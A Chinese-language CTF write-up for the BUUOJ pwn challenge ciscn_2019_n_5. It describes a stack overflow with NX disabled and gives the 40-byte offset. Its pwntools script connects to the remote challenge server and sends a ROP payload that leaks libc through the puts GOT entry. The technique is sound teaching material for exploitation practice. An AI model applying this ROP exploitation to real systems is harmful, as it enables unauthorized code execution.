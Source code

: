 
### 题目6

<https://buuoj.cn/challenges#ciscn_2019_n_5>

![](/img/ctf-pwn/ciscn_2019_n_5/1.jpg)

依旧是栈溢出，可以构造rop，也可以直接ret2shellcode（没开NX）

由于rop写习惯了，先列出rop的做法

![](/img/ctf-pwn/ciscn_2019_n_5/2.jpg)

第一个输入随便写，第二个输入开始溢出

![](/img/ctf-pwn/ciscn_2019_n_5/3.jpg)

溢出30+2+8 = 40个字节，用puts的got表来泄露libc基址

值得注意的是返回main后第二遍溢出时需要栈对齐

**Exp1**

```python
from pwn import *
from LibcSearcher import *

#p = process("./ciscn_2019_n_5")
p = remote('node4.buuoj.cn',27829)

e = ELF("./ciscn_2019_n_5")

main = e.symbols["main"]
puts_got = e.got["puts"]
puts_plt = e.plt["puts"]

pop_rdi = 0x400713
ret = 0x4004c9

p.recvline()
p.sendline(b'aaaa')
p.recvline()

payload = b'a' * 40 + p64(pop_rdi) + p64(puts_got) + p64(puts_plt) + p64(main)

p.sendlineafter(b"What do you want to say to me?\n", payload)
```